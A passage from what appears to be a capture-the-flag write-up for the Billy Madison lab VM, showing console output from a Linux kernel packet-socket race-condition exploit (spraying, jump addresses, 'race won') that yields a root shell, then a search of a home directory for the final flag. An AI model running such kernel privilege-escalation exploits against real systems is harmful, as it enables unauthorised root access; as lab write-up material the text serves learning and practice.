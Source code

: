 current packet version = 2
pbd->hdr.bh1.offset_to_first_pkt = 48
race not won

retrying stage..
new exploit attempt starting, jumping to 0xffffffff81286e50, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 158827, last val = 2)
current packet version = 0
pbd->hdr.bh1.offset_to_first_pkt = 0
race not won

retrying stage..
new exploit attempt starting, jumping to 0xffffffff81286e50, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 99401, last val = 2)
current packet version = 0
pbd->hdr.bh1.offset_to_first_pkt = 48
*=*=*=* TPACKET_V1 && offset_to_first_pkt != 0, race won *=*=*=*
please wait up to a few minutes for timer to be executed. if you ctrl-c now the kernel will hang. so dont do that.
closing socket and verifying.......
sysctl added!

stage 2 completed
binary executed by kernel, launching rootshell
root@BM:~# whoami
root
root@BM:~#

{% endhighlight %}

<p>Great, it's working! Now it's time to look for the last flag. </p>

{% highlight bash %}
root@BM:/home/billy# ls
billy-shampoo-animated.gif  billy-shampoo.jpg  billy-smartestmanalive.gif  pics
root@BM:/home/billy#
{% endhighlight %}

<p>It's definitely not here, altough there's another portion of pictures. </p>

![Eric unimpressed](/img/billy-madison/eric-unimpressed.jpg){:class="img-responsive center-block"}
